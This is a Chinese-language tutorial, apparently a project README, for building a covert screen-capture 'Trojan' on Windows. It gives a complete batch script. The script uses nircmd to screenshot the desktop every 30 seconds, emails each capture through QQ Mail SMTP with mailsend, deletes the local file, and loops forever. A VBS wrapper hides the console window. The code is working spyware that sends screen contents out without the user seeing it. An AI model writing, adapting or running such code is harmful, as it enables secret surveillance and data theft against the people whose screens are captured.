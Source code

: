 # 脚本提示

先关闭批处理的回显：

```batch
@echo off
```

然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 30000
```

### 开始我的自动化脚本

1. 创建一个记事本文件，命名为"scripts.bat"然后打开vscode把文件拖进去开始编辑文件
2. 写入如下代码：
```batch
@echo off

PATH %CD%\bin

:loop

nircmd savescreenshot screen.png

mailsend -to 邮箱地址 -from 邮箱地址 -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "所发的邮件名字" -user 193319076 -pass "密码" -attach screen.png

nircmd wait 30000

del screen.png

goto loop
```
3. 点击运行，就可以收到邮件了

   ![预览](.\img\mail.png)
   点开就是截图
   ![截图](.\img\screen.png)


1. 然后隐藏黑框的方法：
   scripts.bat同目录下新建一个记事本并写入如下代码
```batch
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
WScript.Sleep(0000)
Wsh.Run "scripts.bat",0,True
```
然后把文件后缀给成vbs
就可以实现隐藏黑框了
